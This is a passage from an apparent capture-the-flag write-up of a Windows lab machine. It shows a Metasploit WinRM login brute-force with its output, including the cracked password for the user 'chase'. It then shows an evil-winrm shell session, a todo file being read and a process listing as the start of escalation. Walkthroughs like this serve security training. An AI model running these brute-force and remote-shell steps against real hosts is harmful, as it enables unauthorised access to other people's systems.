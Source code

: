 ```bash
   RHOSTS            10.10.10.149     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit 
   RPORT             5985             yes       The target port (TCP) 
   SSL               false            no        Negotiate SSL/TLS for outgoing connections 
   STOP_ON_SUCCESS   true             yes       Stop guessing when a credential works for a host 
   THREADS           1                yes       The number of concurrent threads (max one per host) 
   URI               /wsman           yes       The URI of the WinRM service 
   USERNAME                           no        A specific username to authenticate as 
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line 
   USER_AS_PASS      false            no        Try the username as the password for all users 
   USER_FILE         usernames.txt    no        File containing usernames, one per line 
   VERBOSE           true             yes       Whether to print output for all attempts 
   VHOST                              no        HTTP server virtual host 
[msf](Jobs:0 Agents:0) auxiliary(scanner/winrm/winrm_login) >> run 
[-] 10.10.10.149: - LOGIN FAILED: WORKSTATION\admin:Q4)sJu\Y8qz*A3?d (Incorrect: ) 
[-] 10.10.10.149: - LOGIN FAILED: WORKSTATION\admin:@sswordf (Incorrect: ) 
[-] 10.10.10.149: - LOGIN FAILED: WORKSTATION\admin:stealth1agent (Incorrect: ) 
[+] 10.10.10.149:5985 - Login Successful: WORKSTATION\chase:Q4)sJu\Y8qz*A3?d
```
we can see that chase can winrm. Using evil-winrm to get the shell.
```
$evil-winrm -i 10.10.10.149 -u chase -p "Q4)sJu\Y8qz*A3?d" 
Evil-WinRM shell v3.4 
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine 
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion 
Info: Establishing connection to remote endpoint 
*Evil-WinRM* PS C:\Users\Chase\Documents>
```

## SHELL AS ADMINISTRATOR

There's a `todo list` in the chase desktop that says to keep checking the issues list, which can be done using a browser, browsing the support portal we found earlier.
```
*Evil-WinRM* PS C:\Users\Chase\Desktop> type todo.txt 
Stuff to-do: 
1. Keep checking the issues list. 
2. Fix the router config. 
Done: 
1. Restricted access for guest user.
```
running ps command we can see a bunch of `firefox process`.
```
*Evil-WinRM* PS C:\Users\Chase\Desktop> ps 
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName 
-------  ------    -----      -----     ------     --  -- ----------- 
    347      19    10232     287536       0.17    740   1 firefox 
    401      34    39024      96248       2.30   2944   1 firefox
   1065      71   149328     227156       8.34   3916   1 firefox
    378      28    23692      60496       1.33   5876   1 firefox
    356      25    16528      39016       0.17   6408   1 firefox
```
